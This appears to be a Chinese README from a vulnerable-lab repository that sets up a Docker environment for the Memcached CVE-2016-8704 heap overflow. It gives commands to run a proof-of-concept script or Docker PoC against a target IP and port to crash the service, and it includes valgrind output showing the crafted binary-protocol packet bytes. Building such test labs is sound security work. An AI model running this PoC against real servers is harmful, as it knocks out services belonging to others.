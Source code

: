 ## Memcached Server APPEND/PREPEND 远程代码执行漏洞(CVE-2016-8704)环境

### 说明

 感谢 [@xing-xiao](https://github.com/xing-xiao) 提供原始环境。 #6

### 漏洞信息

 * [CVE-2106-8704漏洞信息](http://www.talosintelligence.com/reports/TALOS-2016-0219/)

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:m_memcached_CVE-2016-8704
 ```

2. 启动环境

 ```
$ docker run -d -p 11211:11211 medicean/vulapps:m_memcached_CVE-2016-8704
 ```

 > 如果需要追溯堆栈，需在启动时 valgrind 调试 memcached，则启动环境命令如下：

 ```
$ docker run -i -t -u root -p 11211:11211 medicean/vulapps:m_memcached_CVE-2016-8704 /valgrind.sh
 ```

 > 也可执行 /bin/bash，随后手动使用 valgrind 调试

### 使用国内阿里云镜像

1. 拉取镜像到本地

 ```
$ docker pull registry.cn-hangzhou.aliyuncs.com/lo0o/memcached:1.4.32
 ```

2. 启动环境

 ```
$ docker run -d -p 11211:11211 registry.cn-hangzhou.aliyuncs.com/lo0o/memcached:1.4.32
 ```

### PoC

1. 获取目标 IP 地址与端口号，如：192.168.100.2 端口号为 11211

2. 执行 poc.py

```
$ python poc.py 192.168.100.2 11211
```
3. 如果服务端**服务崩溃**则代表执行成功

如果使用 valgrind 调试启动的环境，则会看到类似如下信息：

```
36: going from conn_closing to conn_closed
<37 new auto-negotiating client connection
37: going from conn_new_cmd to conn_waiting
37: going from conn_waiting to conn_read
37: going from conn_read to conn_parse_cmd
37: Client using the binary protocol
<37 Read binary protocol data:
<37    0x80 0x1a 0x00 0xfa
<37    0x00 0x00 0x00 0x00
<37    0x00 0x00 0x00 0x00
<37    0x00 0x00 0x00 0x00
<37    0x00 0x00 0x00 0x00
<37    0x00 0x00 0x00 0x00
37: going from conn_parse_cmd to conn_nread
Value len is -250
==8== Thread 4:
==8== Invalid write of size 8
==8==    at 0x4C326CB: memcpy@@GLIBC_2.14 (in /usr/lib/valgrind/vgpreload_memcheck-amd64-linux.so)
==8==    by 0x4132C8: memcpy (string3.h:53)
==8==    by 0x4132C8: do_item_alloc (items.c:238)
==8==    by 0x40A884: process_bin_append_prepend (memcached.c:2302)
==8==    by 0x40A884: complete_nread_binary (memcached.c:2425)
==8==    by 0x40A884: complete_nread (memcached.c:2484)
==8==    by 0x40D367: drive_machine (memcached.c:4656)
==8==    by 0x4E47A0B: event_base_loop (in /usr/lib/x86_64-linux-gnu/libevent-2.0.so.5.1.9)
==8==    by 0x414874: worker_libevent (thread.c:380)
==8==    by 0x52A26B9: start_thread (pthread_create.c:333)
==8==  Address 0x5d1ae90 is 0 bytes after a block of size 1,048,512 alloc'd
==8==    at 0x4C2DB8F: malloc (in /usr/lib/valgrind/vgpreload_memcheck-amd64-linux.so)
==8==    by 0x40F9DF: memory_allocate (slabs.c:538)
==8==    by 0x40F9DF: do_slabs_newslab (slabs.c:233)
==8==    by 0x40FA6E: do_slabs_alloc (slabs.c:328)
==8==    by 0x41007E: slabs_alloc (slabs.c:584)
==8==    by 0x4131E6: do_item_alloc (items.c:180)
==8==    by 0x407741: process_update_command (memcached.c:3403)
==8==    by 0x40B2FF: process_command (memcached.c:3836)
==8==    by 0x40CE0B: try_read_command (memcached.c:4205)
==8==    by 0x40CE0B: drive_machine (memcached.c:4618)
==8==    by 0x4E47A0B: event_base_loop (in /usr/lib/x86_64-linux-gnu/libevent-2.0.so.5.1.9)
==8==    by 0x414874: worker_libevent (thread.c:380)
==8==    by 0x52A26B9: start_thread (pthread_create.c:333)
==8==
```

如无 Python 可使用 Docker PoC :

```
$ docker run registry.cn-hangzhou.aliyuncs.com/lo0o-rush/memcached:cve-2016-8704 {ip地址} {端口号}
```

### Exp

> 暂无命令执行 Exp，如果你愿意分享该 Exp 可向本仓库发起 [Pull Request](https://github.com/Medicean/VulApps/compare)
